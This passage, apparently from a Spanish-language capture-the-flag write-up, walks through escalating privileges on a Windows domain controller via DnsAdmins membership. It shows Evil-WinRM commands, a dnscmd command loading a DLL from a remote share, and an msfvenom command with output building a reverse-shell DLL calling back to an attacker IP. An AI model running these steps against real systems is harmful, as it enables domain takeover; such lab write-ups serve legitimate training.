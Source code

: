 En su escritorio encontramos una nota que dice :

```python
*Evil-WinRM* PS C:\Users\ryan\desktop> type note.txt
Email to team:

- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
```


```python
*Evil-WinRM* PS C:\Users\ryan\desktop> whoami /groups
```

Enumerando los grupos a los que pertenecemos encontraremos que estamos dentro de `DnsAdmins` 

![20240329180654.png](20240329180654.png)
### Grupo : DnsAdmins

Investigando en los siguientes posts podremos entender y comprender como abusar del grupo del que nos encontramos:

- [https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b](https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b)
- [https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83)
- [https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/](https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/)

Debemos de ejecutar el siguiente comando para lograr obtener una shell

```python
dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
```

En el comando que debemos de a ejecutar vemos que se proporciona una `dll` el cual se ejecutara cuando el servicio de `dns` inicie nuevamente.

Generaremos nuestra propia `dll` maliciosa, esta la realizaremos con `msfvenom`

```python
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.7 LPORT=443 -f dll -o dll_revershell.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: dll_revershell.dl
```
